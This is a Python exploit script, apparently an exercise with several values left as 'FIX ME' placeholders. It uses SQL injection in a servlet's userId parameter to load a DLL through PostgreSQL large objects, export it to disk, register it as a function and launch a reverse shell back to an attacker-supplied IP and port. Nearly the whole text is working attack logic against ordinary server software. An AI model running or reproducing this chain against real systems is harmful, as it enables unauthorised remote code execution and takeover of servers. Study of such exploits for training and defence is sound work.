 ```Python
   
def inject_udf(url, loid):
   log("[+] Injecting payload of length %d into LO..." % len(udf))
   for i in range(0,((len(udf)-1)/--------FIX ME--------)+1):
         udf_chunk = udf[i*--------FIX ME--------:(i+1)*--------FIX ME--------]
         if i == 0:
             sql = "UPDATE PG_LARGEOBJECT SET data=decode($$%s$$, $$--------FIX ME--------$$) where loid=%d and pageno=%d" % (udf_chunk, loid, i)
         else:
             sql = "INSERT INTO PG_LARGEOBJECT (loid, pageno, data) VALUES (%d, %d, decode($$%s$$, $$--------FIX ME--------$$))" % (loid, i, udf_chunk)
         make_request(url, sql)

def export_udf(url, loid):
   log("[+] Exporting UDF library to filesystem...")
   sql = "SELECT lo_export(%d, $$C:\\Users\\Public\\rev_shell.dll$$)" % loid
   make_request(url, sql)
   
def create_udf_func(url):
   log("[+] Creating function...")
   sql = "create or replace function rev_shell(text, integer) returns VOID as $$C:\\Users\\Public\\rev_shell.dll$$, $$connect_back$$ language C strict"
   make_request(url, sql)

def trigger_udf(url, ip, port):
   log("[+] Launching reverse shell...")
   sql = "select rev_shell($$%s$$, %d)" % (ip, int(port))
   make_request(url, sql)
   
if __name__ == '__main__':
   try:
       server = sys.argv[1].strip()
       attacker = sys.argv[2].strip()
       port = sys.argv[3].strip()
   except IndexError:
       print "[-] Usage: %s serverIP:port attackerIP port" % sys.argv[0]
       sys.exit()
       
   sqli_url  = "https://"+server+"/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;%s;--" 
   delete_lo(sqli_url, loid)   
   create_lo(sqli_url, loid)
   inject_udf(sqli_url, loid)
   export_udf(sqli_url, loid)
   create_udf_func(sqli_url)
   trigger_udf(sqli_url, attacker, port)
```